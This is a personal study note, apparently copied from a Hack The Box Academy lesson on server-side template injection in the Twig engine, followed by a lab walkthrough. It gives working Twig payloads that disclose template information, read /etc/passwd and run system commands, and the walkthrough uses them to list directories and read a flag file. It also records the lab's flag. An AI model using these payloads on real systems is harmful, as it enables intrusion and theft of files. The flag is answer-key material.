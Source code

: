 ```yaml
---
sticker: lucide//book-template
---
```

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

---

## Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:


```twig
{{ _self }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

---

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:


```twig
{{ ['id'] | filter('system') }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

---

## Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

# Question
---
![](images/Pasted%20image%2020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![](images/Pasted%20image%2020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![](images/Pasted%20image%2020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![](images/Pasted%20image%2020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![](images/Pasted%20image%2020250212141817.png)

Flag is: 

```
HTB{5034a6692604de344434ae83f1cdbec6}
```